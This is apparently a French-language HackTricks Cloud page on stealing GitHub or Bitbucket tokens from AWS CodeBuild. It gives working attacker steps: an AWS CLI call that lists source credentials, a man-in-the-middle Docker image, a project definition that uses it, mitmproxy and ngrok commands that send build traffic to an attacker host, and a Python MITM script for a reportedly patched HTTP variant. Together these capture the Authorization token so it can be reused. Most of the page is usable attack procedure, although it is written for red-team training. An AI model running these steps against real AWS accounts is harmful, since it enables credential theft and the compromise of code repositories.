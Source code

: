 # AWS Codebuild - Fuite de Token

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Récupérer les Tokens Configurés Github/Bitbucket

Premièrement, vérifiez s'il y a des identifiants de source configurés que vous pourriez divulguer :
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si vous découvrez que l'authentification, par exemple à Github, est configurée dans le compte, vous pouvez **exfiltrer** cet **accès** (**jeton GH ou jeton OAuth**) en faisant en sorte que Codebuild **utilise une image Docker spécifique** pour exécuter la construction du projet.

À cette fin, vous pourriez **créer un nouveau projet Codebuild** ou changer l'**environnement** d'un projet existant pour définir l'**Image Docker**.

L'image Docker que vous pourriez utiliser est [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Il s'agit d'une image Docker très basique qui configurera les **variables d'environnement `https_proxy`**, **`http_proxy`** et **`SSL_CERT_FILE`**. Cela vous permettra d'intercepter la plupart du trafic de l'hôte indiqué dans **`https_proxy`** et **`http_proxy`** et de faire confiance au CERT SSL indiqué dans **`SSL_CERT_FILE`**.

1. **Créez et téléchargez votre propre image Docker MitM**
* Suivez les instructions du dépôt pour définir votre adresse IP de proxy et configurer votre certificat SSL et **construire l'image Docker**.
* **NE DÉFINISSEZ PAS `http_proxy`** pour ne pas intercepter les requêtes vers le point de terminaison des métadonnées.
* Vous pourriez utiliser **`ngrok`** comme `ngrok tcp 4444` pour définir le proxy vers votre hôte.
* Une fois que vous avez construit l'image Docker, **téléchargez-la dans un dépôt public** (Dockerhub, ECR...)
2. **Définissez l'environnement**
* Créez un **nouveau projet Codebuild** ou **modifiez** l'environnement d'un projet existant.
* Configurez le projet pour utiliser l'**image Docker générée précédemment**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Définissez le proxy MitM sur votre hôte**

* Comme indiqué dans le **dépôt Github**, vous pourriez utiliser quelque chose comme :
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **version de mitmproxy utilisée était la 9.0.1**, il a été signalé qu'avec la version 10 cela pourrait ne pas fonctionner.
{% endhint %}

4. **Exécutez le build et capturez les identifiants**

*   Vous pouvez voir le token dans l'en-tête **Authorization** :

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Cela pourrait également être fait depuis l'aws cli avec quelque chose comme

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via le protocole HTTP~~

{% hint style="success" %}
**Cette vulnérabilité a été corrigée par AWS à un moment donné de la semaine du 20 février 2023 (je pense vendredi). Donc un attaquant ne peut plus en abuser :)**
{% endhint %}

Un attaquant avec des **permissions élevées sur un CodeBuild pourrait provoquer une fuite du token Github/Bitbucket** configuré ou, si les permissions étaient configurées via OAuth, du **token OAuth temporaire utilisé pour accéder au code**.

* Un attaquant pourrait ajouter les variables d'environnement **http\_proxy** et **https\_proxy** au projet CodeBuild en les pointant vers sa machine (par exemple `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Ensuite, changer l'URL du dépôt github pour utiliser HTTP au lieu de HTTPS, par exemple : \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Puis, exécuter l'exemple de base de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sur le port indiqué par les variables proxy (http\_proxy et https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Enfin, cliquez sur **Construire le projet**, les **identifiants** seront **envoyés en texte clair** (base64) au port mitm :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Maintenant, un attaquant pourra utiliser le token depuis sa machine, lister tous les privilèges qu'il possède et les (ab)user plus facilement qu'en utilisant directement le service CodeBuild.
{% endhint %}

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
